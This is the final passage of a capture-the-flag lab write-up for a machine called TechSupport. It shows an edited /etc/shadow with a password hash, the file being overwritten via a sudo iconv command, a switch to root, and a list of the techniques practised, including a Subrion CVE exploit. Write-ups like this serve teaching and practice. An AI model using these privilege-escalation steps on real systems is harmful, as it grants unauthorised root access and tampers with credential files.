 ```
systemd-network:*:18484:0:99999:7:::
systemd-resolve:*:18484:0:99999:7:::
systemd-bus-proxy:*:18484:0:99999:7:::
syslog:*:18484:0:99999:7:::
_apt:*:18484:0:99999:7:::
lxd:*:18775:0:99999:7:::
messagebus:*:18775:0:99999:7:::
uuidd:*:18775:0:99999:7:::
dnsmasq:*:18775:0:99999:7:::
sshd:*:18775:0:99999:7:::
scamsite:$6$TCBCdrjH$OmTcHNrjHbDc54pJOfTFNhQE2bzcSRkHKO61aFSKkQySm5xOUVZsjVrx7QHh2uT4ozDv9FNkemtw6XFiBJ3Ma1:18775:0:99999:7:::
mysql:!:18775:0:99999:7:::
```

Then, we can replace `/etc/shadow` by the file we just edited :  
```
scamsite@TechSupport:~$ cat shadow | sudo iconv -f 8859_1 -t 8859_1 -o "/etc/shadow"
scamsite@TechSupport:~$
```

Finally, let's try to login as `root` using the password we used to generate the hash :  
```
scamsite@TechSupport:~$ su root
Password: 
root@TechSupport:/home/scamsite#
```

We are `root` ! Let's get the root flag :  
```
root@TechSupport:/home/scamsite# cd /root
root@TechSupport:~# ls
root.txt
root@TechSupport:~# cat root.txt
********************************  -
root@TechSupport:~#
```

## Conclusion

In this room, we practiced :  
- Services and open ports enumeration using [nmap](https://nmap.org/book/man.html)
- Website enumeration using [gobuster]()
- Manual website enumeration
- SMB enumeration
- Subrion 4.2.1 exploiting ([CVE-2018-19422](https://nvd.nist.gov/vuln/detail/CVE-2018-19422))
- Basic linux privilege escalation

Thanks for this room and thanks for reading my write ups !
